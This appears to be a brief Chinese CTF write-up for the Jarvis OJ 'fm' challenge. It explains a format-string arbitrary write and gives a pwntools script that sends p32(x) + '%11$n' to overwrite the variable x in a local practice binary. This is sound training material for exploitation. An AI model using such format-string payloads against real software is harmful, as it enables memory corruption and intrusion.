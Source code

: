 ```yaml
---
title: "Jarvisoj_fm"
description: ""
date: 2023-04-07T14:10:11+08:00
lastmod: 2023-04-07T14:10:11+08:00
draft: false
images: []
type: docs
weight: 980
toc: true
---
```


## 0x01 分析

![3af8628a9609d7bbd5f140af4a1e39ed](images/3af8628a9609d7bbd5f140af4a1e39ed.png)  

格式化字符串任意写将x覆盖为4即可

## 0x02 Exploit

```python
from pwn import*
o = process("./pwn")
elf = ELF("./pwn")
x = elf.sym['x']

payload = p32(x) + b'%11$n'
o.sendline(payload)

o.interactive()

```

![ac6ddacf3f0af92594e45b783837e42b](images/ac6ddacf3f0af92594e45b783837e42b.png)  

自行调试
